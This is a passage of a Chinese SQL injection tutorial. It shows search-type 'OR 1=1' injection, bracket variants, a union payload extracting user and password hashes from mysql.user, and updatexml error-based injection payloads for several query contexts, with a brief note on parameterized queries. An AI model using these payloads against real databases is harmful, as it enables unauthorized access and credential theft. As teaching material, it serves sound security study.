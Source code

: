 修改后的查询：
```sql
SELECT * FROM products WHERE name LIKE '%' OR 1=1 # %';
```

上述注入将导致数据库返回所有产品，因为1=1条件始终为真，而注释符号"-- "会注释掉查询中的其余部分，从而绕过了原始查询的限制。

为了防止搜索型注入攻击，开发人员应该对用户输入进行适当的过滤和转义，或者使用参数化查询来构建SQL查询，以确保用户输入不会被解释为SQL代码的一部分。此外，还可以实施访问控制和权限控制，以减少潜在攻击的影响。

#### xx型

正常sql:

```
SELECT * FROM products WHERE name = 'Sky';
```

xx型:加上括号或者反引号照样可以运行

```
SELECT * FROM products WHERE `name` = ('Sky');
```

' union select user,authentication_string from mysql.user #;

### 函数报错注入型

#### 利用updataxml函数

优点：各种sql类型都可使用，适用于无回显类型

缺点：返回数据长度有限

```sql
updatexml(xml_doument,XPath_string,new_value)
```

第一个参数：XML的内容
第二个参数：是需要update的位置XPATH路径
第三个参数：是更新后的内容
所以第一和第三个参数可以随便写，只需要利用第二个参数，他会校验你输入的内容是否符合XPATH格式
比如：

```sql
select * from address_book where sex=1 and updatexml(222,concat(0x7e,version()),111);
# 0x7e就是代表‘~’，concat负责连接~和version。
```

得到：                                                                                                    

```sql
ERROR 1105 (HY000): XPATH syntax error: '~5.7.24'
```

注入例子：

```sql
# 数字型
id=1 and updatexml(1,concat(0x7e,user()),1)
SQL:select xx from user where id=1 and updatexml(1,concat(0x7e,user()),1) #;

# 字符型
user' and updatexml(1,concat(0x7e,database()),1) #
SQL:select xx from user where username='user' and updatexml(1,concat(0x7e,database()),1) #'

# 搜索型
' and updatexml(1,concat(0x7e,database()),1) #
SELECT * FROM products WHERE name LIKE '%' and updatexml(1,concat(0x7e,database()),1) #%';

# xx型
user') and updatexml(1,concat(0x7e,database()),1) #
SQL:select xx from user where username=('user') and updatexml(1,concat(0x7e,database()),1) #'
```